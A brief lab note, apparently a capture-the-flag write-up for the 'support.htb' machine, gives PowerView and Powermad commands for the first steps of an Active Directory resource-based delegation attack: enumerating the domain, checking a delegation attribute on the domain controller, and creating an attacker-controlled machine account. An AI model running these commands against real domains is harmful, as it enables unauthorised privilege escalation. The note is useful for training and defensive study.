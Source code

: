 # Kerberos Constrained Delegation
get powerview.ps1 on the machine. We can check if users are allowed to create a new computer object on the domain.

```text-plain
Get-DomainObject -Identity "dc=support,dc=htb" -Domain support.htb
```

Finally, we have to check if the target does not have the attribute `msds-allowedtoactonbehalfofotheridentity` set.

```text-plain
hostname
Get-NetComputer dc | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```

Exploitation:

```text-plain
New-MachineAccount -MachineAccount someuser -Password $(ConvertTo-SecureString 'password123' -AsPlainText -Force) -Verbose
Get-DomainComputer someuser -Properties objectsid
```